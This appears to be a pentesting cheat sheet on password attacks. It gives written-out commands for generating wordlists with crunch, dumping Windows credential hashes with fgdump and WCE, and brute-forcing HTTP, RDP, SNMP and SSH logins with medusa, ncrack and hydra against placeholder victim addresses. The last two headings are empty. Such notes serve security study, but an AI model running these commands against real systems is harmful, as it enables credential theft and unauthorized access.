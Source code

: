 ## Password file generator

### crunch
##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
 #### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
 #### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
  
### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***

### Password Profiling
##### cewl
  ***cewl <victim_www_url> -d [num] -m [num] -w [file.txt]***
  
### Online password attacks

#### HTTP Brute force attack
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http

#### RDP Brute force attack
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP Brute force attack
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH Brute force attack
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

### Password Hash Attack
#### Hash identifier
  ***- hash-identifier ***

#### John the ripper

### Pass the hash
